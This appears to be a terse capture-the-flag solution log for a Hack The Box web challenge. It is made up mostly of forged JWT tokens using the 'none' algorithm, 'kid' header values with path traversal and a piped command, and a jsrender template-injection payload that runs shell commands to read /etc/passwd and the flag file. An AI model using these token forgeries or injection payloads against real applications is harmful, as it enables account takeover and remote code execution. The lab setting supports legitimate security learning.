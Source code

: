 # didactic-octo-paddles

**SOLVED**

> You have been hired by the Intergalactic Ministry of Spies to retrieve a powerful relic that is believed to be hidden within the small paddle shop, by the river. 
> You must hack into the paddle shop's system to obtain information on the relic's location. 
> Your ultimate challenge is to shut down the parasitic alien vessels and save humanity from certain destruction by retrieving the relic hidden within the Didactic Octo Paddles shop.

`178.62.9.10:30703`

Dockerfile -> node

sqllite

https://www.jsviews.com/#jsrapi

barrett/password

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaWF0IjoxNjc5Mjc5MzY4LCJleHAiOjE2NzkyODI5Njh9.PLIKsl0uEJh7ALZSUjxUIArBIx55i861KzMBWp8f4s4
```
{
    "id": 3,
    "iat": 1679279368,
    "exp": 1679282968
}
```

```sh

echo -n '{"typ":"JWT","alg":"none"}' | base64
# eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=

echo -n '{"typ":"JWT","alg":"None"}' | base64
# eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0=

echo -n '{"typ":"JWT"}' | base64
# eyJ0eXAiOiJKV1QifQ

echo -n '{"id": 2, "iat": 1679286488, "exp": 1679290088}' | base64
# eyJpZCI6IDIsICJpYXQiOiAxNjc5Mjg2NDg4LCAiZXhwIjogMTY3OTI5MDA4OH0

echo -n '{"id":1,"iat":1679289631,"exp":1679293231}' | base64
# eyJpZCI6MSwiaWF0IjoxNjc5Mjg5NjMxLCJleHAiOjE2NzkyOTMyMzF9=

# id=2 (HS256)
# eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNjc5Mjg3NzUzLCJleHAiOjE2NzkyOTEzNTN9

# id=2 (none)
# eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpZCI6MiwiaWF0IjoxNjc5Mjg3NzUzLCJleHAiOjE2NzkyOTEzNTN9

# id=2 (undefined)
# eyJ0eXAiOiJKV1QifQ.eyJpZCI6MiwiaWF0IjoxNjc5Mjg3NzUzLCJleHAiOjE2NzkyOTEzNTN9




# id=1 (HS256)
# eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IDEsICJpYXQiOiAxNjc5Mjg2NDg4LCAiZXhwIjogMTY3OTI5MDA4OH0

# id=1 (none)
# eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpZCI6IDEsICJpYXQiOiAxNjc5Mjg2NDg4LCAiZXhwIjogMTY3OTI5MDA4OH0.SXCKbfR7-W9dh7_hAzhwQxvIBLuvftDIhrTebPkueS4

# id=1 (undefined)
# eyJ0eXAiOiJKV1QifQ.eyJpZCI6IDEsICJpYXQiOiAxNjc5Mjg2NDg4LCAiZXhwIjogMTY3OTI5MDA4OH0.SXCKbfR7-W9dh7_hAzhwQxvIBLuvftDIhrTebPkueS4

# id=1 (None)
# eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6IDEsICJpYXQiOiAxNjc5Mjg2NDg4LCAiZXhwIjogMTY3OTI5MDA4OH0

# id=1 (HS384)
# eyJhbGciOiJIUzM4NCIsInR5cCI6IkpXVCJ9.eyJpZCI6IDEsICJpYXQiOiAxNjc5Mjg2NDg4LCAiZXhwIjogMTY3OTI5MDA4OH0.SXCKbfR7-W9dh7_hAzhwQxvIBLuvftDIhrTebPkueS4

# id=1 (None, secret='hello')
# eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6IDEsICJpYXQiOiAxNjc5Mjg2NDg4LCAiZXhwIjogMTY3OTI5MDA4OH0.JluJfnZspWzAXnY1usJ2L7kZbLaySGtcAp52PZyhAmo87-pG8M4j4nIxXSw01NCU


# id=2 
# eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNjc5Mjg5NjMxLCJleHAiOjE2NzkyOTMyMzF9.DaocbOd2vi6ehYBcRz0X4rk_ZT8lVfc2_hexXnREfJI

# id=1 None
# eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MSwiaWF0IjoxNjc5Mjg5NjMxLCJleHAiOjE2NzkyOTMyMzF9.DaocbOd2vi6ehYBcRz0X4rk_ZT8lVfc2_hexXnREfJI


```

```sh
echo -n '{"typ":"JWT","alg":"none", "kid": "key1|/usr/bin/uname"}' | base64
# eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIiwgImtpZCI6ICJrZXkxfC91c3IvYmluL3VuYW1lIn0=

echo -n '{"typ":"JWT","alg":"none", "kid": "../../../../../../../dev/null"}' | base64
# eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIiwgImtpZCI6ICIuLi8uLi8uLi8uLi8uLi8uLi8uLi9kZXYvbnVsbCJ9

echo -n '{"typ":"JWT","alg":"None", "kid": "../../../../../../../dev/null"}' | base64
# eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIiwgImtpZCI6ICIuLi8uLi8uLi8uLi8uLi8uLi8uLi9kZXYvbnVsbCJ9

# id 1, None
# eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MSwiaWF0IjoxNjc5Mjg5NjMxLCJleHAiOjE2NzkyOTMyMzF9.DaocbOd2vi6ehYBcRz0X4rk_ZT8lVfc2_hexXnREfJI
# eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MSwiaWF0IjoxNjc5Mjg5NjMxLCJleHAiOjE2NzkyOTMyMzF9.OPcbSrMAveicacjPBJzFrXZ0z2JLyns2u5dYhFBbWi8

# id 1, none, kid dev/null
# eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIiwgImtpZCI6ICIuLi8uLi8uLi8uLi8uLi8uLi8uLi9kZXYvbnVsbCJ9.eyJpZCI6MSwiaWF0IjoxNjc5Mjg5NjMxLCJleHAiOjE2NzkyOTMyMzF9.OPcbSrMAveicacjPBJzFrXZ0z2JLyns2u5dYhFBbWi8

# id 1, None, kid dev/null
# eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIiwgImtpZCI6ICIuLi8uLi8uLi8uLi8uLi8uLi8uLi9kZXYvbnVsbCJ9.eyJpZCI6MSwiaWF0IjoxNjc5Mjg5NjMxLCJleHAiOjE2NzkyOTMyMzF9.OPcbSrMAveicacjPBJzFrXZ0z2JLyns2u5dYhFBbWi8
```

https://www.invicti.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities/



https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/JSON%20Web%20Token/README.md#jwt-signature---null-signature-attack-cve-2020-28042

```sh
echo -n '{"typ":"JWT","alg":"None"}' | base64
# eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0=

echo -n '{"id":1,"iat":1679289631,"exp":1679293231}' | base64
# eyJpZCI6MSwiaWF0IjoxNjc5Mjg5NjMxLCJleHAiOjE2NzkyOTMyMzF9

# id=1, alg=None
# eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MSwiaWF0IjoxNjc5Mjg5NjMxLCJleHAiOjE2NzkyOTMyMzF9.

# id=2 base token
# eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNjc5MjkyNDU2LCJleHAiOjE2NzkyOTYwNTZ9.xyMWAAZ6ahgndKhmZe-A3ApNsR0X1LLJtjIpl6dSoXc

# id=1, alg=None payload
# eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MSwiaWF0IjoxNjc5Mjg5NjMxLCJleHAiOjE2NzkyOTMyMzF9.
```

```
# registering SSTI users
# https://chinnidiwakar.gitbook.io/githubimport/pentesting-web/ssti-server-side-template-injection#jsrender-nodejs

user={{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
password=password

user = {{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}
password = password
```

` HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}`
